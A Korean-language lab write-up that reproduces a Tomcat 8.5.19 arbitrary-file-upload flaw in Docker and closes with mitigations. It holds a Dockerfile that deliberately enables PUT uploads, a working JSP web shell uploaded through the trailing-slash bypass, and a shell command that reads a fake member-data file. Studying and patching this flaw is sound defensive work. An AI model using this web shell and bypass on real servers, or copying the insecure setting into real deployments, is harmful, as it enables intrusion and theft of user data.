

# 환경 구성

실습 환경은 취약한 버전의 Apache Tomcat 컨테이너를 구동하고, 목표가 될 가상의 회원 개인정보 파일을 내부에 자동 생성하도록 구성되었습니다.

[파일 1] Dockerfile

### 1. 취약점이 존재하는 톰캣 버전을 가져온다.

FROM tomcat:8.5.19

### 2. 웹서버 내 회원 정보 유출 시나리오를 위한 가상의 회원 데이터를 생성한다.

RUN echo "User_ID: user1234 | Email: user1234@email.com | Phone: 010-1234-5678 | Point: 50,000" > /usr/local/tomcat/webapps/ROOT/member_profile.txt

### 3. [핵심 취약 조건] web.xml을 수정하여 파일 업로드(PUT 요청)를 허용하는 readonly=false 속성을 강제로 삽입한다.

RUN sed -i 's/<servlet-class>org.apache.catalina.servlets.DefaultServlet<\/servlet-class>/<servlet-class>org.apache.catalina.servlets.DefaultServlet<\/servlet-class>\n        <init-param>\n            <param-name>readonly<\/param-name>\n            <param-value>false<\/param-value>\n        <\/init-param>/g' /usr/local/tomcat/conf/web.xml

[파일 2] docker-compose.yml

services:
  tomcat-vuln:
    build: .
    ports:
      - "8080:8080"

실행 방법: 제공된 파일이 위치한 디렉터리에서 아래 명령어를 실행하여 서버를 구동합니다.

docker-compose up -d --build

# 취약 조건
해당 취약점은 다음 두 가지 조건이 결합하여 발생합니다.

소프트웨어 버전: Apache Tomcat 8.5.19 (취약점이 존재하는 레거시 버전)

설정 오류: 톰캣의 핵심 설정 파일인 conf/web.xml 내 DefaultServlet의 readonly 파라미터가 false로 설정되어 있어, 인가되지 않은 외부 사용자가 HTTP PUT 메서드를 통해 임의의 파일을 생성할 수 있는 상태.

# 재현 절차

1단계. 검증 우회 및 악성 웹쉘 업로드 (PowerShell 기준)
Tomcat은 기본적으로 .jsp 파일의 업로드를 차단하지만, 요청 URL 끝에 슬래시(/)를 덧붙이는 우회 기법(Trailing Slash)을 사용하면 보안 필터를 통과할 수 있습니다.

Windows PowerShell 환경에서 아래 스크립트를 실행하여 웹쉘을 업로드합니다.

$body = '<%@ page import="java.util.*,java.io.*"%> <% Process p = Runtime.getRuntime().exec(request.getParameter("cmd")); BufferedReader in = new BufferedReader(new InputStreamReader(p.getInputStream())); String line; while ((line = in.readLine()) != null) { out.println(line); } %>'

Invoke-WebRequest -Method PUT -Uri "http://localhost:8080/webshell.jsp/" -Body $body -UseBasicParsing

2단계. 원격 코드 실행 및 회원 정보 탈취
업로드된 웹쉘을 통해 서버 시스템 명령어를 원격으로 실행합니다.

http://localhost:8080/webshell.jsp?cmd=cat%20/usr/local/tomcat/webapps/ROOT/member_profile.txt

# 실행 결과
공격 실행 결과, 서버 내부의 가상 회원 정보가 담긴 파일(member_profile.txt)을 가져오는 데 성공했습니다.

# 대응 방안

접근 제어 파라미터 복구: 웹 서버의 핵심 설정 파일(conf/web.xml) 내 DefaultServlet의 readonly 파라미터 값을 명시적으로 true로 설정합니다. 파라미터 블록 자체를 삭제하여 안전한 기본값(true)이 강제 적용되도록 조치할 수도 있습니다.

불필요한 HTTP 메서드 통제: 인가된 데이터 조회 및 처리 기능만 수행해야 하는 애플리케이션의 특성을 고려하여, 파일 쓰기를 허용하는 PUT, DELETE, TRACE 등의 불필요한 HTTP 메서드를 웹 서버(WAS) 단에서 차단합니다.

필터링 로직이 강화된 버전으로 업데이트: 파일명 끝에 포함된 비정상적인 특수 기호(Trailing Slash, /)를 이용한 검증 우회 취약점이 근본적으로 패치된 안전한 버전(Apache Tomcat 7.0.81, 8.5.23, 9.0.1 이상)으로 즉시 시스템을 업그레이드합니다.